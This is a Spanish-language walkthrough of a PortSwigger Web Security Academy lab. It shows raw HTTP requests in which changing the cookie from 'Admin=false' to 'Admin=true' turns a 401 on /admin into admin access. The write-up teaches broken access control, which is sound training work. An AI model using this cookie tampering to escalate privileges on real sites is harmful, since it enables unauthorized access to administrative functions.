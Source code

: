 # Lab 3: User role controlled by request parameter

Luego de hacer login se detecta la siguiente peticion:

```
GET /admin HTTP/2
Host: 0a5a002f03e4d92b82bf7e89005400a3.web-security-academy.net
Cookie: Admin=false; session=dgVJMe3ocQnMRrKY3ECMibFyiA9Y9YfU
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y esta responde asi:

```
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2598

Admin interface only available if logged in as an administrator
```

Se procede a manipular el valor de la cookie:

```
GET /admin HTTP/2
Host: 0a5a002f03e4d92b82bf7e89005400a3.web-security-academy.net
Cookie: Admin=true; session=dgVJMe3ocQnMRrKY3ECMibFyiA9Y9YfU
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y se puede apreciar que el cambio a TRUE nos permite acceder al portal administrativo:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

```

Y al renderizar el DOM se ve asi:

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
